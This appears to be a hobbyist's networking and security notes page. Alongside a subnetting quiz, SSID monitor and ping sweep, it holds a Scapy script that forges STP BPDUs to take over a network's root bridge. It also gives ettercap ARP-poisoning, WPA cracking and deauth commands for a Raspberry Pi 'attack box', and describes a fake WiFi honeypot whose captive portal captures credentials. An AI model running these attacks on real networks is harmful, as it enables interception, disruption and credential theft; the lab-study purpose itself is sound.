



Jump to:
 Numbers Converter
Numbers Converter
Subnetting Quiz
Loading question...

Jump to:
Numbers Converter
Subnetting Quiz
scripts
Enable code execution in PowerShell
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser
Monitor & Display SSID's in PowerShell
# Function to continuously monitor and display SSIDs
function Monitor-SSIDs {
while ($true) {
Clear-Host
Write-Host "Scanning for SSIDs..."
# Run the netsh command to list available SSIDs
$ssidList = netsh wlan show networks | Select-String -Pattern '^SSID \d+ : (.+)$' | ForEach-Object { $_.Matches.Groups[1].Value }
# Output the list of SSIDs
$ssidList
Start-Sleep -Seconds 5 # Adjust the refresh interval as needed
}
}
# Start monitoring SSIDs
Monitor-SSIDs
pingsweep.py
import ipaddress
import subprocess
# ANSI escape codes for colors
GREEN = '\033[92m'
RED = '\033[91m'
RESET = '\033[0m'
# Function to ping an IP address
def ping_ip(ip):
try:
output = subprocess.check_output(['ping', '-n', '1', str(ip)], stderr=subprocess.STDOUT, universal_newlines=True)
if "TTL=" in output:
return True
except subprocess.CalledProcessError:
return False
return False
def main():
# Get network address and subnet from user
network = input("Enter network address (e.g., 192.168.1.0/24): ")
net = ipaddress.ip_network(network, strict=False)
# List to store all the IPs that are up
up_hosts = []
# Ping each IP in the subnet
for ip in net.hosts():
if ping_ip(ip):
# Store IPs that are up
up_hosts.append(str(ip))
# Green output for "up" hosts
print(f"{GREEN}{ip} is up{RESET}")
else:
# Red output for "down" hosts
print(f"{RED}{ip} is down{RESET}")
# Summarize and print all up IPs
print("\nSummary of IPs that are up:")
if up_hosts:
for up_ip in up_hosts:
print(f"{GREEN}{up_ip} is up{RESET}")
else:
print(f"{RED}No hosts are up in this subnet.{RESET}")
if __name__ == "__main__":
main()
BPDU root hack
#!/usr/bin/env python3
#Import scapy
from scapy.all import *
#Capture STP frame (ether dst is dest mac of spanning tree)
pkt = sniff(filter="ether dst 01:80:c2:00:00:00",count=1)
#Change the MAC address in the frame to the followuing:
pkt[0].src="00:00:00:00:00:01"
#Set rootid
pkt[0].rootid=0
#Set rootmac
pkt[0].rootmac="00:00:00:00:00:01"
#Set bridgeid
pkt[0].bridgeid=0
#Set bridgemac
pkt[0].bridgemac="00:00:00:00:00:01"
#Show changed frame
pkt[0].show()
#Loop to send multiple frames into the network:
for i in range (0,50):
#Send changed frame back into the network:
sendp(pkt[0], loop=0, verbose=1)
#Sleep / wait for one second:
time.sleep(1)
List of windows shortcuts
ncpa.cpl | Network Connections
sysdm.cpl | System Properties
inetcpl.cpl | Internet Properties
firewall.cpl | Windows Firewall Settings
hdwwiz.cpl | Device Manager
netplwiz | User Accounts
empty box...
There's nothing here yet :(
HackPi (Wireless Attack Box)

⚙️ HackPi Hardware
-------------------------------------
- Raspberry Pi 3B
- Alfa USB NIC
- Waveshare 1.3" OLED (SPI)
- Anker 10,000mAh battery bank
📦 Installed Software
-------------------------------------
git, wireshark, nmap, ettercap-text-only,
xrdp, sublime-text, aircrack-ng, airgeddon
💻 Message of the Day
-------------------------------------
/$$ /$$ /$$
| $$ | $$ |__/
| $$$$$$$ /$$$$$$ /$$$$$$$| $$ /$$ /$$$$$$ /$$
| $$__ $$ |____ $$ /$$_____/| $$ /$$/ /$$__ $$| $$
| $$ \ $$ /$$$$$$$| $$ | $$$$$$/ | $$ \ $$| $$
| $$ | $$ /$$__ $$| $$ | $$_ $$ | $$ | $$| $$
| $$ | $$| $$$$$$$| $$$$$$$| $$ \ $$| $$$$$$$/| $$
|__/ |__/ \_______/ \_______/|__/ \__/| $$____/ |__/
| $$
| $$
|__/
ViriditasNoctis
AUTO-H#CKS:
------------------------------------------------------------
auto-wlan-scan # airodump-ng wlan1
auto-wlan-crack # besside-ng wlan1
auto-deauth # wifi-deauth-rpi-wardrive/attack.py
auto-wpa-crack # aircrack-ng ~/SecLists/
hack responsibly /|\ ^._.^ /|\
PiDisplay setup: OLED screen setup on Raspberry Pi
sudo apt-get update sudo apt-get install python3-dev python3-pip libffi-dev libssl-dev sudo pip3 install --upgrade pip sudo pip3 install --upgrade luma.oled sudo pip3 install smbus sudo apt-get install python3-numpy libopenjp2-7 libtiff5 # Enable SPI and I2C interfaces: sudo raspi-config > Interfacing Options > SPI → Yes > Interfacing Options > I2C → Yes # Enable display at boot: sudo vi /etc/rc.local > Add this just above "exit 0": python /home/pi/monitor.py &
Attacks
🔹 Man in the Middle --------------------- Recon: sudo nmap -sn 10.0.10.0/24 MiTM Attack: sudo ettercap -T -S -i wlan1 -M arp:remote /10.0.10.254// /10.0.10.92// -w dump.pcap 🔹 WPA Attack ------------- airodump-ng wlan1 besside-ng wlan1 -c 11 -b 74:83:C2:91:B3:01 # Tips: - Use aircrack-ng v1.5.2 - Hold version to prevent bad packet issues: sudo apt-mark hold aircrack-ng 🔹 Crack Captured Handshake ---------------------------- aircrack-ng wpa.cap -w ~/passwordlist.txt 🔹 Deauth Bomb (follow guide) ------------------------------ https://github.com/ShlomiRex/wifi-deauth-rpi-wardrive
Bash Aliases
alias auto-wlan-crack='sudo besside-ng wlan1' alias auto-deauth='sudo python3 /home/rowadmin/attacks/wifi-deauth-rpi-wardrive/attack.py' alias auto-wlan-scan='sudo airodump-ng wlan1' alias auto-wpa-crack='sudo aircrack-ng wpa.cap -w ~/SecLists/Passwords/xato-net-10-million-passwords-1000000.txt'
Sources
KaliPi (Free-WiFi Honeypot)
 
⚙️ About the KaliPi
-------------------------------------
- Built as an improved successor to the deprecated HackPi project
- Runs a headless Kali Linux install for performance and stealth
- Includes a custom captive portal for phishing credential collection
- Designed for ethical hacking, security awareness, and wireless auditing
📦 KaliPi System Info
-------------------------------------
OS: Kali GNU/Linux Rolling
Version: 2024.2 (kali-rolling)
Based on: Debian
Arch: aarch64 (64-bit ARM)
💻 Kernel Info
-------------------------------------
Linux Host: kali-raspberry-pi5
Kernel: 6.1.77-v8+ (SMP PREEMPT)
Built: Mon Feb 26 17:41:54 UTC 2024
💻 Wireless Tools:
------------------
aircrack-ng - Contains airmon-ng, airodump-ng, aireplay-ng
hostapd - Creates the fake WiFi access point
dnsmasq - Lightweight DHCP + DNS server
nodogsplash - Captive portal redirect engine
nodejs - Runs the phishing capture script
npm - Installs node dependencies if needed
curl - Used to fetch scripts or setup Node.js cleanly
git - Useful for cloning hackpi-site repo
📁 Config & Phish Page Paths:
-------------------------------
Credentials captured:
/home/kali/hackpi-site/html/output.txt
Configs:
/etc/hostapd/hostapd.conf - WAP config
/etc/dnsmasq.conf - DNS/DHCP
/etc/dhcp/dhcpd.conf - Also DHCP
/etc/nodogsplash/htdocs/splash.html - Captive splash page
/home/kali/hackpi-site/html - Web files